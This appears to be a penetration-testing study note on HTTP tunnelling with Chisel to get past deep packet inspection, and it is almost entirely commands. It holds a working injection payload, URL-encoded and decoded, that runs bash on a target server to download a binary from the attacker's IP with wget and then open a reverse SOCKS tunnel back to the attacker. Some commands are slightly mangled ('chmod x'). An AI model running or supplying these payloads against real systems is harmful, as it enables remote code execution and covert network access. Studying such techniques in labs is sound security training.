 # HTTP tunneling

when _Deep Packet Inspection_ (DPI) solution is now terminating all outbound traffic except HTTP



Copy Chisel binary to the Apache2 server folder.:

{% code title="kali" %}
```sh
sudo cp $(which chisel) /var/www/html/
```
{% endcode %}

Start Apache2:

{% code title="kali" %}
```sh
sudo systemctl start apache2
```
{% endcode %}

Download the **chisel** binary to **/tmp/chisel** and make it executable:

`wget 192.168.118.4/chisel -O /tmp/chisel && chmod x /tmp/chisel`&#x20;



{% code title="kali" overflow="wrap" %}
```sh
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```
{% endcode %}

* `${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','wget 192.168.118.4/chisel -O /tmp/chisel && chmod x /tmp/chisel').start()")}/`&#x20;



```
tail -f /var/log/apache2/access.log
```



```sh
chisel server --port 8080 --reverse
```



```sh
sudo tcpdump -nvvvXi tun0 tcp port 8080
```





`/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &`



{% code overflow="wrap" %}
```sh
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/
```
{% endcode %}

* `${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','/tmp/chisel client 192.168.118.4:8080 R:socks').start()")}/`

